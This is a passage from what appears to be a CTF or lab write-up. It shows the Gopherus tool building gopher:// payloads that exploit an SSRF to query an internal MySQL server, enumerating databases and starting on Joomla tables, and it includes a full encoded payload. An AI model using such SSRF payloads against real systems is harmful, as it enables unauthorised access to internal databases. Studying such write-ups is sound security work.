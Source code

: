 after we select the username gopherus will ask us for the query to execute. as usual we need to know first of all, the databases so we will ask gopherus to make a URL to explete the SSRF

```bash
❯ gopherus --exploit mysql


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

		author: $_SpyD3r_$

For making it work username should not be password protected!!!

Give MySQL username: goblin
Give query to execute: SHOW databases;

Your gopher link is ready to do SSRF : 

gopher://127.0.0.1:3306/_%a5%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%67%6f%62%6c%69%6e%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%10%00%00%00%03%53%48%4f%57%20%64%61%74%61%62%61%73%65%73%3b%01%00%00%00%01

-----------Made-by-SpyD3r-----------
```
we will take the url that gopherus provide us and paste it in the search bar on the ssrf that we saw before in /internalResourceFeTcher.php(remember  to turn on the foxyProxy)

output (to make it work it we have to recharge the page like 7 times, FYI) it's normal in this kind of SSRF)
```bash
information_schemajoomla
```

so we can enumerate the databases let's follow our metodology, now we have to get the tables, we have to use the joomla databases to enumerate the tables

```bash
❯ gopherus --exploit mysql


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

		author: $_SpyD3r_$

For making it work username should not be password protected!!!

Give MySQL username: goblin
Give query to execute: USE joomla; show tables;

Your gopher link is ready to do SSRF : 

```